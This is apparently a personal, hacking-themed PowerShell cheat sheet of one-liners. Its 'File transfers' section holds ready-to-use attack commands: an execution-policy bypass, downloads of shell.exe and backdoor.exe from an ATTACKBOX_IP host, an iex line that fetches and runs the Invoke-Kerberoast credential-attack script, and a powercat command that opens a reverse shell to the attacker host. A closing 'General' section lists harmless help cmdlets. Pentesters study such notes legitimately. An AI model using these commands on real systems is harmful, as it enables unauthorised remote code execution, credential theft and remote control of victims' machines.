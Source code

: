 # Useful Powershell
This is a condensed and *Hacking themed* resource for powershell. Powershell is a massive and my humble opinion a *weird* object-oriented programming language.  Windows and Powershell are not case-sensitive, but a *stardard* readability is to use upper-case first letter - I suggest not unless you need to present your work(use a script to change it to *standard*). Every command has a cmdlet and combinations of `verb-noun` to construct command that would be too numerous to list. So to define the theme of this document is oneliners catergorised by use(*just in case at some point they maybe some exceptions like two oneliners that need to be seperate executions* **THESE WILL HAVE A `# TASKNAME Command # THEN Command`**. I am in the process of making this better for my own use:
1. Adding aliases that I might want to use instead of full command
2. Making the comments defining explaining a better layout

For all the [[Powershell-Verbs]].

## Execution policy bypass And Versioning 
```powershell
powershell -ep bypass
powershell.exe -exec bypass C:\Wowsershell.ps1
$PSVersionTable
```

## File transfers
```powershell
(New-Object system.Net.WebClient).Downloadfile('http://ATTACKBOX_IP/shell.exe')

certutil -urlcache -split -f http://$ATTACKBOX_IP/backdoor.exe


iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')

Invoke-WebRequest -Uri http://$ATTACKBOX_IP -OutFile file.exe

# http.server 8888 in powercat directory
# nc -lvnp 1337
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

# One line NC web server
# REQUIRES NETCAT on target!
while(1) { cat index.html | nc -w1 -l -p 8080 }

# HARDCORE GUI way:
# Add ip to trusted sites and download
```
[Add to trusted sites with powershell](https://stackoverflow.com/questions/51720030/ie-browser-powershell-script-to-add-site-to-trusted-sites-list-disable-protec)

## General
```powershell
Get-Command              # list of powershell commands, BEWARE OF THE LISTS
Get-Verb				 # list all verbs
Get-Help                 # help for specific cmdlet
Get-Help $Command-Name
Get-Command Verb-* 
Get-Command *-Noun # Commands and Cmdlets are both executables in ps, Command= compiled, can be solo-executed cmdlets
Get-Command | Get-Member -MemberType Method # view members for a the get command
Get-Command -Type Cmdlets | Measure-Object -Sum -ErrorAction SilentlyContinue
Get-Alias		
Set-Alias				 	# Make commands
```
